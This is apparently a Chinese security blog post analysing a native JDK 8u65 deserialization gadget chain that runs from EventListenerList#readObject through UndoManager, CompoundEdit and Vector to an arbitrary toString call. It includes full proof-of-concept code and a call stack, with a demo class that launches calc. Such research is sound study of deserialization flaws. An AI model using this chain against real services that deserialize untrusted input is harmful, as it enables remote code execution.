









一条JDK原生的触发toString的链子

# 依赖

依赖的话我还是用最经典的jdk8u65，链子的限制版本还没手动去测

# 链子分析

## javax.swing.event.EventListenerList#readObject

```java
    private void readObject(ObjectInputStream s)
        throws IOException, ClassNotFoundException {
        listenerList = NULL_ARRAY;
        s.defaultReadObject();
        Object listenerTypeOrNull;

        while (null != (listenerTypeOrNull = s.readObject())) {
            ClassLoader cl = Thread.currentThread().getContextClassLoader();
            EventListener l = (EventListener)s.readObject();
            String name = (String) listenerTypeOrNull;
            ReflectUtil.checkPackageAccess(name);
            add((Class<EventListener>)Class.forName(name, true, cl), l);
        }
    }
```

主要看最后一句

```java
add((Class<EventListener>)Class.forName(name, true, cl), l);
```

内部调用forName使用类加载器加载相关类，true表示加载类后会初始化类，即执行静态代码块，加载类后强制转化成EventListener类型，最后调用add将类的Class对象和实例对象添加为监听器

所以这里我们需要找到能够强制转换为 EventListener 类型，并且实现 Serializable 接口的类。

## EventListenerList#add

跟进add方法



可以看到这里有隐式调用toString的操作，会调用到实例对象的toString方法

所以我们需要找到这样一个类：

- 能够强制转换为 EventListener 类型
- 实现 Serializable 接口
- 内部有toString方法

然后我们找到一个UndoManager类



实现了UndoableEditListener接口，而这个接口继承了EventListener类



返回来看UndoManager类还继承自CompoundEdit类，该类的继承类AbstractUndoableEdit实现了Serializable接口，那么到这里两个条件就满足了

## UndoManager#toString

看到UndoManager类中的toString方法

```java
    public String toString() {
        return super.toString() + " limit: " + limit +
            " indexOfNextAdd: " + indexOfNextAdd;
    }
```

这里limit和indexOfNextAdd属性都是int类型，并没有可以利用的地方，我们进入`super.toString()`看看

## CompoundEdit#toString

```java
    public String toString()
    {
        return super.toString()
            + " inProgress: " + inProgress
            + " edits: " + edits;
    }
```



inProgress是一个布尔类型，但是edits却是Vector类的对象，那么会调用到Vector#toString

## Vector#toString

```java
    public synchronized String toString() {
        return super.toString();
    }
```

继续回溯

## AbstractCollection#toString

```java
    public String toString() {
        Iterator<E> it = iterator();
        if (! it.hasNext())
            return "[]";

        StringBuilder sb = new StringBuilder();
        sb.append('[');
        for (;;) {
            E e = it.next();
            sb.append(e == this ? "(this Collection)" : e);
            if (! it.hasNext())
                return sb.append(']').toString();
            sb.append(',').append(' ');
        }
    }
```

新建了一个迭代器对象循环集合中的元素并拼接，如果元素 e 正好就是集合本身就输出`(this Collection)`，否则会输出元素e的toString

我们可以通过add方法将恶意类添加进去

```java
        public void add(E e) {
            int i = cursor;
            synchronized (Vector.this) {
                checkForComodification();
                Vector.this.add(i, e);
                expectedModCount = modCount;
            }
            cursor = i + 1;
            lastRet = -1;
        }
```

继续跟进`StringBuilder.append`方法

## StringBuilder#append



跟进valueOf

## String#valueOf



会调用到obj的toString，到这里就可以进行任意类的toString调用了

# 注意的问题

需要注意一个点，就是在EventListenerList#add中



这里会检查传入的实例对象是否是t加载类的实例对象，所以我们在UndoManager对象前面在加一个Class。说到底只要不是UndoManager.class就行

# POC的编写

写一个测试类

```java
package SerializeChains.Chain_EventListenerList;

import java.io.Serializable;

public class Test implements Serializable {
    public String name;
    
    public Test(String name) {
        this.name = name;
    }
    public String toString(){
        try{
            Runtime.getRuntime().exec("calc");
        }catch(Exception e){
            throw new RuntimeException(e);
        }
        return "name: " + name;
    }
}
```

## POC

```java
package SerializeChains.Chain_EventListenerList;

import javax.swing.event.EventListenerList;
import javax.swing.undo.UndoManager;
import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.Vector;

public class POC {
    public static void main(String[] args) throws Exception {
        Test test = new Test("wanth3f1ag");
        EventListenerList eventListenerList = (EventListenerList) getEventListenerList(test);

        String ser = serialize(eventListenerList);
        unserialize(ser);
    }
    public static Object getEventListenerList(Object object) throws Exception{
        EventListenerList eventListenerList = new EventListenerList();
        UndoManager undoManager = new UndoManager();

        //从UndoManager父类CompoundEdit的edits中取出Vector对象，并将恶意类通过add添加
        Vector vector = (Vector) getFieldValue(undoManager,"edits");
        vector.add(object);

        setFieldValue(eventListenerList,"listenerList", new Object[]{Class.class, undoManager});
        return eventListenerList;
    }
    public static void setFieldValue(Object object, String fieldName, Object value) throws Exception{
        Field field = object.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(object, value);
    }
    public static Object getFieldValue(final Object obj, final String fieldName) throws Exception{
        final Field f = getField (obj.getClass (), fieldName );
        return f.get (obj);
    }
    public static Field getField( final Class<?> clazz, final String fieldName ) throws Exception {
        try {
            Field field = clazz.getDeclaredField(fieldName);
            if (field != null)
                field.setAccessible(true);
            else if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);

            return field;
        } catch (NoSuchFieldException e) {
            if (!clazz.getSuperclass().equals(Object.class)) {
                return getField(clazz.getSuperclass(), fieldName);
            }
            throw e;
        }
    }
    //定义序列化操作
    public static String serialize(Object object) throws Exception{
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(byteArrayOutputStream);
        oos.writeObject(object);
        oos.close();
        String poc = Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
        return poc;
    }

    //定义反序列化操作,提供base64后的字节码，进行反序列化
    public static void unserialize(String poc) throws Exception{
        byte[] bytes = Base64.getDecoder().decode(poc);
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);
        ObjectInputStream ois = new ObjectInputStream(byteArrayInputStream);
        ois.readObject();
    }
}
```





函数调用栈

```java
toString:13, Test (SerializeChains.Chain_EventListenerList)
valueOf:2994, String (java.lang)
append:131, StringBuilder (java.lang)
toString:462, AbstractCollection (java.util)
toString:1000, Vector (java.util)
valueOf:2994, String (java.lang)
append:131, StringBuilder (java.lang)
toString:258, CompoundEdit (javax.swing.undo)
toString:621, UndoManager (javax.swing.undo)
valueOf:2994, String (java.lang)
append:131, StringBuilder (java.lang)
add:187, EventListenerList (javax.swing.event)
readObject:277, EventListenerList (javax.swing.event)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
invokeReadObject:1058, ObjectStreamClass (java.io)
readSerialData:1900, ObjectInputStream (java.io)
readOrdinaryObject:1801, ObjectInputStream (java.io)
readObject0:1351, ObjectInputStream (java.io)
readObject:371, ObjectInputStream (java.io)
unserialize:69, POC (SerializeChains.Chain_EventListenerList)
main:16, POC (SerializeChains.Chain_EventListenerList)
```
